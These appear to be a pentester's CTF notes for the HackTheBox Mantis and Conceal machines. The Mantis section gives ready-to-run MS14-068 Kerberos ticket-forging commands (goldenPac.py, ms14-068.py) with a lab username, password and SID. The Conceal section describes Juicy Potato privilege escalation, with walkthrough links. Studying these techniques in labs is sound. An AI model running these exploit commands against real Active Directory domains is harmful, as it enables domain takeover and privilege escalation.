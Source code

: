 ## Notes

MS14-068
------
add htb.local and mantis.htb.local to /etc/hosts

impacket goldenpac <= 9.18 works, 9.19 does not work on mantis, or use pykek ms14-068<br/> 
```
goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local

python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
rpcclient -U james 10.10.10.52
```


htb mantis:
[LINK-1](https://medium.com/secjuice/hackthebox-mantis-writeup-9c2b50c4b30b)
[LINK-2](https://alamot.github.io/mantis_writeup/)


Juicy Potato
------
[https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases) <br/> `whoami /priv` has `SeImpersonatePrivilege`

need CLSID, pick ones with NT AUTHORITY\SYSTEM : [CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

htb conceal:
[LINK-1](https://0xrick.github.io/hack-the-box/conceal/)
[LINK-2](https://hackso.me/conceal-htb-walkthrough/)